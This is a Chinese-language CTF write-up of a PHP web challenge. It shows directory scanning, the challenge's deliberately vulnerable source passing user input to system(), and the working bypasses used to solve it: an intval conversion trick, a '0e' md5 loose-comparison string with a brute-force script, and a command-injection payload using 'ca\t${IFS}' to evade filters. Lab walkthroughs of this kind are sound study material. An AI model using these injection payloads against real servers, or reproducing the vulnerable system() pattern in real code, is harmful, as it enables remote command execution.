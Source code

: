 ![[Pasted image 20221121210931.png]]

---
首页长这样

![[Pasted image 20221121210920.png]]

很怪，标题编码出了点问题，burp里面又能正确显示

![[Pasted image 20221121211528.png]]

有报错，但没看懂.jpg

用`dirsearch`扫扫看

![[Pasted image 20221121214141.png]]
```php
/robots.txt
```
![[Pasted image 20221121212704.png]]

```php
/fAke_f1agggg.php
```
![[Pasted image 20221121212912.png]]

是假的呜呜呜～

但是翻响应头翻到了点东西

![[Pasted image 20221121212901.png]]

```php
/fl4g.php
```
![[Pasted image 20221121213632.png]]

hmmm，为啥又是烦人的编码问题啊啊啊

搜了下，最后害得先进的浏览器收拾摊子

![[Pasted image 20221121213808.png]]

---
```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

---
`level 1`的弱类型比较利用半天没过去，结果发现自己本地跑的`php`版本太高，已经修复了。

大致就是利用`$num+1`时字符串隐式转换的规则和`intval`不同来绕过
```php
/?num=1e5
```

---
`level 2`是md5弱类型比较绕过，`0e`打头的字符串弱类型比较时等价于`0`，网上有大佬写了代码枚举自身`0e`打头，`md5`值也为`0e`打头的字符串

https://blog.csdn.net/SopRomeo/article/details/106237931
```python
def run():
    i = 0
    while True:
        text = '0e{}'.format(i)
        m = md5(text)
        print(text,m)
        if m[0:2] == '0e' :
            if m[2:].isdigit():
                find=[]
                print('find it:',text,":",m)
                find = find.append(text)
        i +=1
    return find

t = run()
print(t)
```

```php
/?num=1e5&md5=0e215962017
```

---
`get flag`就氵起来了
```php
/?num=1e5&md5=0e215962017&get_flag=ls
```
![[Pasted image 20221121224622.png]]
```php
/?num=1e5&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
![[Pasted image 20221121224740.png]]

#Web #PHP #字符 #编码 #目录爆破 #HTTP #Header #代码审计 #函数 #绕过 #md5 #Misc #shell #RCE 